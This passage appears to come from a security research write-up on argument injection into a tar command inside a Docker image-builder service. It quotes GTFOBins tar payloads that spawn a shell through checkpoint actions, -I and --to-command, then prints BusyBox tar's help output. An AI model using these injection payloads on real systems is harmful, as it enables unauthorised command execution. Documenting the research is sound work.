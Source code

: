 Note that `sha256:` prefix will be removed. After this we need to pack the image to tarball and push it to registry. I tried many popular tools, but they used to verify hash and failed. Instead I've found a custom Python script with 12 stars: [docker-push](https://github.com/sdenel/docker-pull-push/blob/master/docker-push), and it worked.

Then image-builder service executed the following command:

```sh
tar -C .overlay -xf X Y Z.tar --overwrite
```

## Exploitation

What could we do with `tar` arguments injection? First I used [gtfobins](https://gtfobins.github.io/gtfobins/tar/) and tried to use RCE payloads:

```
Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

(a) tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

(b) This only works for GNU tar.

    tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'

(c) This only works for GNU tar. It can be useful when only a limited command argument injection is available.

    TF=$(mktemp)
    echo '/bin/sh 0<&1' > "$TF"
    tar cf "$TF.tar" "$TF"
    tar xf "$TF.tar" --to-command sh
    rm "$TF"*
```

Surprisingly they didn't worked, because we deal with non-gnu `tar`. The image-builder service used [busybox](https://www.busybox.net/) as base image, so their `tar` has only the following arguments:

```
/ # tar -h
BusyBox v1.36.1 (2024-06-10 07:11:47 UTC) multi-call binary.

Usage: tar c|x|t [-ZzJjahmvokO] [-f TARFILE] [-C DIR] [-T FILE] [-X FILE] [LONGOPT]... [FILE]...

Create, extract, or list files from a tar file

	c	Create
	x	Extract
	t	List
	-f FILE	Name of TARFILE ('-' for stdin/out)
	-C DIR	Change to DIR before operation
	-v	Verbose
	-O	Extract to stdout
	-m	Don't restore mtime
	-o	Don't restore user:group
	-k	Don't replace existing files
	-Z	(De)compress using compress
	-z	(De)compress using gzip
	-J	(De)compress using xz
	-j	(De)compress using bzip2
	--lzma	(De)compress using lzma
	-a	(De)compress based on extension
	-h	Follow symlinks
	-T FILE	File with names to include
	-X FILE	File with glob patterns to exclude
```